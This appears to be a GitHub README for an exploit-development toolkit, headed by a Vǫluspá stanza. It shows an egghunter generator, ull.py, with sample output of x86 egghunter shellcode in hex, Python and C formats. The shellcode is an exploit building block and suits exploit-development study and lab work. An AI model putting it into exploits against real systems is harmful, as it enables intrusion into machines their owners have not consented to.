 <center>
The brothers fight 
and will put to death,
Parents will sully
Their own layer;

Harsh times in the world,
Universal Adultery,
Time of axes, time of swords,
Shields are split,
Storm times, wolf times,
Before the world collapses;

No one 
will spare anyone

--Vǫluspá 45.
</center>
</br>
</br>



# Collection of tools for exploit development purposes

----------

### **ull.py  -  The hunter god**
He will create an egghunter with your desired tag.

> Example:
```
root@kali:/opt/valhalla# python ull.py Amon
[*] Your tag: Amon
[+] Hexadecimal format: 
6681caff0f42526a0258cd2e3c055a74efb8416d6f6e8bfaaf75eaaf75e7ffe7

[+] Python format: 
egghunter = ''
egghunter += '\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58'
egghunter += '\xcd\x2e\x3c\x05\x5a\x74\xef\xb8'
egghunter += '\x41\x6d\x6f\x6e'
egghunter += '\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7'

[+] C format: 
unsigned char shellcode[] = \''
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58"
"\xcd\x2e\x3c\x05\x5a\x74\xef\xb8"
"\x41\x6d\x6f\x6e"
"\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7";

root@kali:/opt/valhalla#
```